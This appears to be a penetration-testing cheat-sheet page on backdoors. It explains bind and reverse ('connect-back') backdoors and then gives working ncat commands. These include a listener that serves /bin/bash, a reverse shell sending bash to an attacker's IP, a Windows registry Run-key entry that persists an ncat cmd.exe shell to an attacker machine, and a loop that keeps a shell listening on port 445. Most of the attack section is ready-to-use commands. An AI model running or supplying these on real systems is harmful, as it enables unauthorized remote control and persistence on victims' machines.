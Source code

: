 ## System Attacks

### Backdoor

Backdoors have two components, server and client:

* _Server_ runs on the victim machine listening on the network in order to accept connections.
* _Client_ runs on the attacker machine.
* `Netbus` or `SubSeven` are very famous.
* If the backdoor server sits behind a firewall, the easiest way to archive a connection is using a **Connect-back Backdoor** or **Reverse Backdoor**.
* A firewall cannot tell the difference between a user surfing the web and a backdoor connecting back to the attacker's machine.

#### Create stable connection to a remote host

```bash
# => Listener
ncat -l -v -p 5555 -e /bin/bash
# => Client
ncat localhost 5555

## Reverse connection
# => Attacker/Listener
ncat -l -p 5555 -v
# => Victim / Client
ncat -e /bin/bash remoteIP remotePort

# bash interactive for friendly prompt
bash -i
```

```bash
# Persist execution in windows
> regedit.exe
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\CurrentVersion\Run

# Add string value
Name: ncact
Value: yourpath\ncat attackerMachine Port -e cmd.exe
```

```bash
# Persistent connection script
# By default netcat does not have a persistent connection.
# You will need to run it in a while loop if you want to connect to it more than once.
# Otherwise it will close the program after the first connection:
# https://defcon.org/images/defcon-22/dc-22-presentations/Nemus/DEFCON-22-Lance-Buttars-Nemus-Intro-to-backdooring-OS.pdf

#!/bin/bash
while [ 1 ]; do
  echo | ncat -l -v -p 445 -e /bin/bash
done
```
